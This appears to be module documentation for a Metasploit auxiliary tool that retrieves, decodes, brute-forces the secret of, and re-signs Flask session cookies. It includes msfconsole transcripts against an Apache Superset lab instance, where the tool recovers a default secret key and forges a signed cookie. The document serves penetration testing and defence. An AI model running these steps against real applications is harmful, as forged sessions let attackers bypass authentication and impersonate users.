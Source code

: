 ## Vulnerable Application

This is a generic module which can manipulate Python Flask-based application cookies.
The Retrieve action will connect to a web server, grab the cookie, and decode it.
The Resign action will do the same as above, but after decoding it, it will replace
the contents with that in NEWCOOKIECONTENT, then sign the cookie with SECRET. This
cookie can then be used in a browser. This is a Ruby based implementation of some
of the features in the Python project Flask-Unsign.

### Example Application

Apache Superset can be used since it is based on Flask.

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin
sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/python_flask_cookie_signer`
1. Do: `set rhosts [IP]`
1. Do: `run`
1. You should get a decoded cookie

## Actions

### Retrieve

Retrieve a cookie from an HTTP(s) server

### FindSecret

Using the provided wordlist, find the secret key used to sign the cookie

### Resign

Resign the specified cookie data

## Options

### TARGETURI

The URI which gives a cookie. Redirects are NOT followed.

### NEWCOOKIECONTENT

When action is set to `Resign`, the content of the decoded cookie will be replaced with this content.

### SECRET

When action is set to `Resign`, the cookie is signed with this secret.

### SECRET_KEYS_FILE

When action is set to `FindSecret`, a file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/flask_secret_keys.tx`

## Scenarios

### Apache Superset 2.0.0

#### Grab the cookie to make sure its a valid cookie that can be decoded. (Retrieve)

```
msf6 > use auxiliary/gather/python_flask_cookie_signer
msf6 auxiliary(gather/python_flask_cookie_signer) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 auxiliary(gather/python_flask_cookie_signer) > set RPORT 8088
RPORT => 8088
msf6 auxiliary(gather/python_flask_cookie_signer) > set TARGETURI /login
TARGETURI => /login
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] 192.168.159.128:8088 - Retrieving Cookie
[*] 192.168.159.128:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZDU2N2U1ZDJmYmU1NDIyOTRlMzFhODU5YWFiMjQ5MTcwMDcyNTNhMyIsImxvY2FsZSI6ImVuIn0.ZPoc7Q.y_slNhIvS7PDX1gKMYpBS1nW0L0
[*] 192.168.159.128:8088 - Decoded Cookie: {"csrf_token"=>"d567e5d2fbe542294e31a859aab24917007253a3", "locale"=>"en"}
[*] Auxiliary module execution completed
```

#### Determine the secret key (FindSecret)

```
msf6 auxiliary(gather/python_flask_cookie_signer) > set action FindSecret
action => findsecret
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 127.0.0.1

[*] 127.0.0.1:8088 - Retrieving Cookie
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiZjNlMjU1MzBkZWNkYjE4YzRkYWMxMTQzODgyYjg1ODlmMWM3YzFjYyIsImxvY2FsZSI6ImVuIn0.ZP9b0w.PjZZJJ1lSiUQPacotJV0zbxX3fU
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] Auxiliary module execution completed
```

#### Sign a new cookie (Resign)

```
msf6 auxiliary(gather/python_flask_cookie_signer) > set NEWCOOKIECONTENT '{"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}'
NEWCOOKIECONTENT => {"csrf_token"=>"08e51dd1f352d6790e6ab9b99dadd621602b9189", "locale"=>"fr"}
msf6 auxiliary(gather/python_flask_cookie_signer) > set SECRET CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
SECRET => CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
msf6 auxiliary(gather/python_flask_cookie_signer) > set ACTION Resign
ACTION => Resign
msf6 auxiliary(gather/python_flask_cookie_signer) > run
[*] Running module against 192.168.159.128

[*] Attempting to sign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 192.168.159.128:8088 - New signed cookie: session=IntcImNzcmZfdG9rZW5cIj0-XCIwOGU1MWRkMWYzNTJkNjc5MGU2YWI5Yjk5ZGFkZDYyMTYwMmI5MTg5XCIsIFwibG9jYWxlXCI9PlwiZnJcIn0i.ZPodFA.4hA6OiYpdxAUoOsA9L7DMTVOZkI
[*] Auxiliary module execution completed
msf6 auxiliary(gather/python_flask_cookie_signer) >
```
